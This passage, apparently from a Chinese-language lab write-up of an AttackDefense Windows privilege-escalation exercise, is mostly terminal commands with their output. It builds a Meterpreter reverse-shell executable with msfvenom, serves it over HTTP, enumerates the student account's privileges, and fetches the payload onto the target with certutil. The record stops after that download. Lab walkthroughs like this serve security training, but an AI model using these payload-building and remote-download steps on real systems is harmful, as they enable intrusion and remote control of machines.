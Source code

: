```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.16.2  netmask 255.255.255.0  broadcast 10.10.16.255
        ether 02:42:0a:0a:10:02  txqueuelen 0  (Ethernet)
```

```
root@attackdefense:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

```
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

student账户权限很少。

```
C:\Users\student>net user

User accounts for \\PRIV-ESC

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
student                  WDAGUtilityAccount
The command completed successfully.


C:\Users\student>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

在目标主机上下载msfvenom生成的payload.exe。

```
C:\Users\student\Desktop>certutil -urlcache -f http://10.10.16.2/payload.exe payload.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

成功将payload.exe下载到student用户的桌面。
